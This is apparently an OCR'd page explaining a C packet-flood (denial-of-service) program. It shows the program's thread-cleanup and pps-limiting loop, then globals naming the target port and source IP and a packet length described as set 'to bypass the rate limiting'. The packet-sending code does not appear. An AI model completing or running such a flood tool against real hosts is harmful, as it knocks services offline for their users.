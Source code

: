 ```c
            limiter++;
            sleeptime += 100;
        } else {
            if(limiter > 0) {
                limiter--;
            }
        }
        if(sleeptime > 25) {
            sleeptime -= 25;
        } else {
            sleeptime = 0;
        }
    }
    pps = 0;
    pthread_mutex_unlock(&pps_mutex);
}
// cleanup + exit
for(int i = 0; i < num_threads; i++) {
    pthread_cancel(thread[i]);
}
        
return 0;
}
```

the script needs the standard C libraries and headers to work. the libraries include functions and data types that are typically needed for network programming, threading, and more.

## flow

1. declaring global variables

```c
static unsigned int floodport;
#define BUFFER_SIZE 100
char sourceip[17];
volatile int limiter;
volatile unsigned int pps;
volatile unsigned sleeptime = 100;
volatile unsigned int length_packet = 0;
```

- `floodport`: the port to send packets to (target).
- `sourceip`: the buffer to store the source IP address in.
- `limiter`: controls the packets per second (pps).
- `pps`: counts the packets per second.
- `sleeptime`: the sleep time (in ms) for each packet if the pps limit is exceeded.
- `length_packet`: the length of the packet, which is set to bypass the rate limiting. set to 0 in the script.

2. thread safety

```c
pthread_mutex_t pps_mutex = PTHREAD_MUTEX_INITIALIZER;
```

